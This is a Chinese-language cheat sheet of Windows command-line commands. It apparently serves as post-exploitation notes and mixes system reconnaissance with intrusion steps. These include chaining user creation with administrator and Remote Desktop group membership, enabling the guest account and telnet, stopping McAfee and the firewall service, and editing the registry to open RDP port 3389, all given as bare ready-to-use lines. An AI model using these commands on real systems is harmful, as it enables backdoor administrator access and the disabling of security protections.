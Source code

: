## 查看版本`ver`
## 查看权限`whoami`
## 查看配置`systeminfo`
## 查看用户名`net user`
<!--more-->
## 查看进程
`tasklist`
## 查看正在运行的服务
`tasklist /svc`
## 查看开放的所有端口
`netstat -ano`
## 查询管理用户名
`query user`
## 查看搭建坏境
`ftp 127.0.0.1`
## 查看指定服务的路径
`sc qc Mysql`
## 添加一个用户
`net user 用户名 密码 /add`
## 提升管理权限
`net localgroup administrators 用户名 /add`
## 添加用户并提升权限
`net user 用户名 密码 /add & net localgroup administrators 用户名 /add`
## 查看指定用户信息
`net user 用户名`
## 查看所有管理权限的用户
`net localgroup administrators`
## 加入远程桌面用户组
`net localgroup "Remote Desktop Users" 用户名 /add`
## 突破最大连接数
`mstsc /admin /v:127.0.0.1`
## 删除用户
`net user 用户名 /del`
## 删除管理员账户
`net localgroup administrators 用户名 /del`
## 更改系统登录密码
`net user 用户名 密码`
## 激活GUEST用户
`net user guest /active:yes`
## 开启TELNET服务
`net start telnet`
## 关闭麦咖啡
`net stop "McAfee McShield"`
## 关闭防火墙
`net stop sharedaccess`
## 查看当前目录的所有文件
`dir 目录路径`
## 查看指定文件的内容
`type 文件路径`
## 复制cmd.exe 到 temp 下命名为cmd.txt
`copy c:\windows\temp\cookies\cmd.exe c:\windows\temp\cmd.txt`
## 开启3389端口
`REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f`
## 查看路由器信息
`route print`
